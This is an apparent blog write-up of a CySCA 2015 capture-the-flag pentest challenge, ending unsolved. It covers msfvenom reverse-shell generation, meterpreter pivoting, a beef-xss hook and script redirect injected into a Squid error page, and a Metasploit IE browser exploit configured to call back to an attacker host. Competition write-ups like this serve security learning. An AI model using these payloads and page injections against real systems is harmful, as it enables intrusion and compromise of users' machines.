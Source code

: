 ```yaml
---
title: CySCA 2015 - Corporate Pentest 3.0 - Flash Flood
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```



We are now connected to the company's proxy. We are given the hint early on 
that:

> Consider that the ECWI system is secure and does not allow direct traffic from 
> the DMZ to the internal network. Additionally, it does not allow direct 
> connections on arbitary ports from the internal network to the DMZ"


We perform some network connection analysis, using ifconfig, route, arp,
netstat, and additionally look at the squid access log.

We deduce the following info:

- eth1 has IP address's: `ifconfig`
    - fd00:bad:cafe::300
    - 10.10.5.30
- eth0 has IP address `ifconfig`
    - 172.16.5.30
- There is a simulated user hitting the squid server from:
    - fd00:dead:beef::103
    - found this by: `tail -f /var/log/squid3/access.log`
- Netstat gave us some extra info `netstat tulpn`:
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60706 ESTABLISHED`
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60709 ESTABLISHED`
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60704 ESTABLISHED`
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60707 ESTABLISHED`


Additionally, we used metasploit to scan the internal network.

We used msfvenom to generate our metasploit framework payload and copied it to
the proxy machine using scp

`msfvenom -f elf -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.5.101 LPORT=4444`

We fired up a metasploit console runnning the handler

{% highlight bash %}
$> msfconsole
 
(msfconsole) use exploit/multi/handler
(multi_handler) set PAYLOAD linux/x86/meterpreter/reverse_tcp
(multi_handler) set SET LHOST 192.168.5.101
(multi_handler) set SET LPORT 4444
(multi_handler) exploit 
{% endhighlight %}

We run the binary from the proxy machine and it connects back to us on our 
metasploit console.

Within the meterpreter session, we add routes so that we can access the eth1 
network from our own metasploit console. 

{% highlight bash %}
meterpreter> run autoroute -s 10.10.5.0/24
meterpreter> run autoroute -s fd00::
{% endhighlight %}

We made use of the following metasploit modules to scan the internal network,

 - auxiliary/scanner/portscan/tcp
 - auxiliary/scanner/discovery/udp_probe
 - and many more...


We deduce that there are no IPv4 clients on the subnet. We did not scan ipv6. 
We also take note that we are not sure of our results, since we are not trusting 
our metasploit session is routing correctly. 

Given this info, we create a diagram:

{% highlight bash %}
 --------------------
| Me!                |
| 192.168.5.101      | -----
 --------------------       |
                            |
                            |
             ---------------------------
            | Proxy Server              |
            | -   -   -   -   -   -   - |
 Public/DMZ | eth0 - 172.16.5.30        | ----
------------| -   -   -   -   -   -   - |     | eth0 can connect to eth1 via 
 Internal   | eth1 - 10.10.5.30         | <---  proxy @:3128. This means I can 
            |      - fd00:bad:cafe::300 |       talk to hosts on the internal 
             ---------------------------        via the proxy.
                        |
          10.10.5.0/24 AND fd00::               Cannot talk directly, as stated
                        |                       in the clue.
                -----------------
                |                |
               ???     ---------------------
                      | Simulated User      |
                      | fd00:dead:beef::103 | <- There appears to be a host 
                       ---------------------     using the proxy from an ipv6
                                                 address... wat. No ipv4??

                                                 Theoretically, the simulated 
                                                 user /should/ be able to talk 
                                                 to "Me" via the proxy, just
                                                 as I can talk to it, thanks to
                                                 the misconfiguration.

                                                 I cannot, however, open
                                                 a direct connection from 
                                                 Simulated User to Me, since
                                                 the given clue states that
                                                 this is impossible. 

{% endhighlight %}

We are also given another clue, however it's a bit late to the party:

> Consider the services that you have used to get here, maybe others are using 
> them as well... How would you find that out? And keep up your resolv.conf

...and another

> Look in the log file folder that has the same name as a sea creature. When 
> you find the target, find their version, then find the exploit.

...and another

> 11.7.700.202 might be relevant. Remember proxys are are generally used for 
> internal users to browse the internet.

We did not use theese hints, however 11.7.700.202 looks like it might be
an ipv6 address in dotted decimal form...

During the competition, I did not stop to think about the final sentence in the 
3rd hint, **find their version**. Additionally, I did not stop to think to 
consider the challenge name **'flash flood'**. This was clearly a challenge where 
we were required to exploit flash on the simulated user's machine...

With that sidenote mentioned, I will explain my attack surface, and how I 
attempted to gain access via a java exploit.

Since we know the simulated machine is actually accessing the proxy, but hitting a 
`TCP_MISS/503` for all of its requests, we can easily mess around with the
error page that squid spits out, and add our arbitrary content there to 
allow us to fingerprint the user's browser. 

We fire up beef-xss on our kali virtual machine. We are given a script tag
to place in the page sent to the client. (which I have determined to be 
`ERR_DNS_FAIL`) for most requests. Putting the script tag on this page, we now 
can get some idea of what OS the client is running

We quickly test that beef is functioning correctly via the proxy, so in our own 
proxied firefox session, we open a broken page, ie `http://hipsterpics.cysca/`. 

Our machine appears in the beef-xss console. Our POC works! It's just a little 
wait until the simulated user loads up our payload, and before we know it, the
machine is listed in the beef-xss control panel.

We choose the machine, fingerprint it, and check the software it is runnning.

It has:

 - UA: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0; SLCC2; 
   .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 
   6.0; .NET4.0C; .NET4.0E)
 - UA: (Friendlier): IE10.0 For Desktop
 - OS: Windows 7
 - JRE: jre_16 jre_17.
 - **Flash Player 8**.

With this knowledge, we can begin exploiting java and pure ie10 (lol yeah... 
I didn't really think this through)... 

Attempting to use various java payloads, including browser_autopwn, no success
is had. None of the payloads will connect back to us.

An example of a msf payload I used:

{% highlight bash %}
use exploit/windows/browser/ms10_002_aurora
(ms10_002_aurora) show options
... options here...
(ms10_002_aurora) set SRVHOST 192.168.5.101  # Place to host the initial payload
(ms10_002_aurora) set SRVPORT 80             # Port for initial payload
(ms10_002_aurora) set URIPATH /              # exploit will be accesisble at /

(ms10_002_aurora) set PAYLOAD windows/meterpreter/reverse_http
(ms10_002_aurora) set LHOST 192.168.5.101 # The host to connect back to...
                                          # the reverse_http payload will 
                                          # connect back via HTTP, and if a 
                                          # proxy exists, connects via it, so 
                                          # the payload should be able to 
                                          # connect back to us.
(ms10_002_aurora) set LPORT 443           # Proxy friendly HTTP POrt
{% endhighlight %}

Now, we modify our `ERR_DNS_FAIL` page again, but this time to have a 
`<script>document.location='http://192.168.5.101/'</script>`. This will 
bring simulated users to our exploit endpoint. 

We wait about 20 seconds... The simulated user comes and downloads the payload, but 
no connection is made back to us... something is wrong. We try multiple 
different exploits relating to java and pure IE10, however no progress it made.

It's worth noting that we were chasing a red-herring here. It appeared the 
machine was executing in-browser applets with an old version of java, as 
every now and then, it would make a request to oracle to download an MSI 
installer of jre_16 (via the proxy), however, maybe that was an indication 
that it wasn't installed?

It's unfortunate that we were unable to get further than this, since there were
many more challanges to unlock once this hurdle was completed. With that being 
said, I have learnt so much about metasploit/remote exploitation and would 
now feel comfortable using it day-to-day.




